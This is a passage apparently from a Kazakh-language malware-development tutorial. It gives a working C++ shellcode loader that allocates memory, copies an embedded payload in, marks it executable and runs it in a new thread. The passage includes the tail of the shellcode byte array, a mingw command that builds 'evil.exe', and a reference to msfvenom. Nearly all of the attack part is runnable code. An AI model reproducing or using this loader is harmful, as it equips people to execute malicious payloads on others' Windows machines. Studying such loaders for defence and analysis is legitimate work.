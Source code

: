 ```cpp
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, 
  my_payload_len, MEM_COMMIT | MEM_RESERVE, 
  PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, 
  my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

Егер сіз көп кодты түсінбесеңіз, уайымдамаңыз. Мен бұған ұқсас айлалар мен код бөліктерін жиі қолданамын. Кітапты оқыған сайын ұғымдар мен негізгі нәрселерді көбірек түсінесіз деген үміттемін.    

Алдымен осыны тексеріп көрейік.   

Құрастыру:   

```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++
-static-libgcc
```

![msfvenom](./images/6/2021-09-18_20-35.png){width="75%"}
